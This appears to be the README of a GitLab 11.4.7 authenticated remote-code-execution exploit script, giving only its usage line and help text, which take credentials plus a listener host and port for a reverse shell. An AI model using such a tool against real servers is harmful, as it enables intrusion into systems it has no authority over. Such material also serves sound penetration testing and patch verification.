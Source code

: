 # GitLab-11.4.7-Authenticated-Remote-Code-Execution


<h3> Usage : python gitlab_rce.py -U <USERNAME> -P <PASSWORD> -l <LHOST> -p <LPORT> </h3>
  

usage: gitlab_rce.py [-h] [-U U] [-P P] [-l L] [-p P]

GitLab 11.4.7 Authenticated RCE

optional arguments:
  -h, --help  show this help message and exit
  -U U        GitLab Username
  -P P        Gitlab Password
  -l L        rev shell lhost
  -p P        rev shell lport
